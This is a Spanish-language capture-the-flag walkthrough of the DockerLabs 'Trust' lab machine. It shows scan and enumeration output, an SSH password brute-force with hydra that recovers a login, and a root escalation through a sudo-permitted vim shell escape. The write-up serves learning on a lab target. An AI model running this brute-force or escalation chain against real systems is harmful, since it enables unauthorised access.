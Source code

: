 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/
# whoami
root

Empezamos realizando un escaneo basico con nmap.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds

```

Aqui encontramos un puerto 22 y un puerto 80 me meto en la direccion web "http://172.17.0.2/" y se ve que es una pagina de apache:

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,php.bak,php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 813927 / 1323366 (61.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 818325 / 1323366 (61.84%)
===============================================================
Finished
===============================================================
                                                                 
```

Encontramos un ficher .php llamado "secret.php" accedo a este fichero y se ve una pagina donde habla de un usuario "mario":


Hacemos un ataque de fuerza bruta con hydra hacia el servidor ssh con el usuario mario:

```shell
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 22:36:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-13 22:36:26           
```

Nos encuentra una contraseña para el usuario mario la probamos y vemos que nos deja entrar:

```shell
└─$ ssh mario@172.17.0.2               
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux eb21e3cbaf4b 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21

```

```shell
mario@eb21e3cbaf4b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on eb21e3cbaf4b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on eb21e3cbaf4b:
    (ALL) /usr/bin/vim

```

Vemos que podemos ejecutar root sin contraseña entonces procedemos a la escalada de privilegios:

Entramos en "https://gtfobins.github.io/#" una pagina web dedicada a la explotacion de estos bins entre otras cosas

Buscamos "vim" y entramos en "sudo"

Ejecutamos el comando y vemos que ya somos root:

```shell
mario@eb21e3cbaf4b:~$ sudo vim -c ':!/bin/sh'

```

```shell
# whoami
root

```
